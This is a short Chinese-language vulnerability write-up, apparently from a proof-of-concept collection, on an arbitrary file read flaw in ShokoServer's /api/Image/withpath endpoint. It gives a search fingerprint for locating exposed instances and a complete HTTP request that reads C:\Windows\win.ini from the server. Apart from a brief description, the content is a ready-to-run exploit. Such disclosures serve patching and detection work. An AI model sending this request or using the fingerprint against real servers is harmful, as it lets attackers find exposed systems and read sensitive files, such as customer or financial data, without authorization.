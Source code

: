 # ShokoServer withpath存在任意文件读取漏洞

# 一、漏洞简介
 Shoko Server 是一个基于 Java 的开源媒体服务器软件，旨在提供一个统一的媒体管理和流媒体解决方案。它支持多种媒体格式，包括视频、音频、图片等，能够对媒体文件进行索引、搜索、播放和流媒体等操作，ShokoServer 接口处存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。 

# 二、影响版本
ShokoServer 

# 三、资产测绘
```plain
title="Shoko WEB UI"
```

![1718818450198-44a101d0-316c-4d7e-8400-2a31b8d1f59e.png](./img/wxwNT0908SqtJqKO/1718818450198-44a101d0-316c-4d7e-8400-2a31b8d1f59e-667302.png)

# 四、漏洞复现
```java
GET /api/Image/withpath/C:\Windows\win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1718818490807-dfbfe785-9fb9-4d6b-82ef-ba88038a9dcb.png](./img/wxwNT0908SqtJqKO/1718818490807-dfbfe785-9fb9-4d6b-82ef-ba88038a9dcb-188673.png)





> 更新: 2024-06-23 23:42:48  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xf0qp3zhll25buy9>